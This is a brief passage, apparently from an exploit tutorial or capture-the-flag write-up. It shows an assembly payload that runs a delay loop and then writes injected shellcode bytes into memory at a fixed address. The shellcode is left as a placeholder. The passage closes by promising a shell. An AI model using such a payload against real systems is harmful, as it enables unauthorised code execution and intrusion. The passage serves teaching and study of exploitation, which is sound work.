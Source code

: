 Now the modified payload looks like:
```assembly
# This is our target basic block
# It gets executed once at start
cool:
movq rsi, 0xfaceb00b
jmp start2

start2:

# decreased the number of loop iterations here because we don't need to wait for GDB
mov rdi, 1000
loop:
decq rdi
jne loop

movabs r12, 0x0000001002d9d2f0

## PASTE SHELLCODE MOV SEQUENCE HERE ##
## e.g.
## mov byte ptr [r12+0], 0x48
## mov byte ptr [r12+1], 0xbf
## etc...

jmp cool

ret
```

Run it again and you'll get a shell!